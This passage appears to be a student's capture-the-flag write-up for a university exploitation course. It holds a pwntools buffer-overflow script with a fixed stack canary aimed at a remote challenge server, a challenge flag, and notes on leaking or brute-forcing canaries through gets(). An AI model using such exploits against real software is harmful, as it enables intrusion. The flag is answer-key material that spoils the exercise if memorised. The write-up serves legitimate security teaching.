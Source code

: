 ```
    #io = process('./bestsecurity')
    io = remote('plzpwn.me', 2002)

# Check args at crash
if crash:
    pattern = cyclic(512)
    io.sendline(pattern)
    pause()
    # haab
    sys.exit()

# 'canary' is 1234, according to the strncmp args
canary = 0x34333231
exploit = 'A'*cyclic_find(r'haab') + pack(canary)
io.sendline(exploit)
io.interactive()
```

stack-dump
===========================

Flag: `COMP6447{B3T_1T_H4D_4_C4N4RY}`

General overview of problems faced
-------------------------------------
- Trying to figure out what exactly the binary does/can do
- Seems like print memory map does what it says, prints memory map and sets a global variable that has the address of where the memory starts
- This global variable can then be printed by dump memory
- This boi `mov    eax,gs:0x14` is using the general purpose segment register offset by 0x14 as the stack canary
- Trying to figure out how to read this at runtime so I can set it in my payload
- *Major problem faced: human body needs sleep*
- After some research, it seems like there are 2 main ways to crack this: leak a canary or brute force
    - Leaking the canary can occur if we can control the size of the output and thus get back an arbitrary number of bytes (all the way up until the cookie itself)
    - Brute force can be used if we can fork (forking uses the same address space, and thus the same canary) and test children that use the same canary 
one byte at a time (only have to brute force 3 bytes as the 'first' byte is always a null byte to prevent strings from overwriting.
In our case, this is a non-issue as we have `gets()`, which accepts input until a newline character (although we could get unlucky with the canary).


- Seems like the attack surface is the call to `gets()` in the input and a call to `printf` that allows us to print some hex somewhere. I'd like to start with the
non-brute force method and see if we can leak the stack cookie somehow.

- Looks like we can overwrite the variable that the 'memory dump' option prints out, which is for sure before the stack canary. 
We can use the stack pointer so kindly given to us and offset it to get the canary!

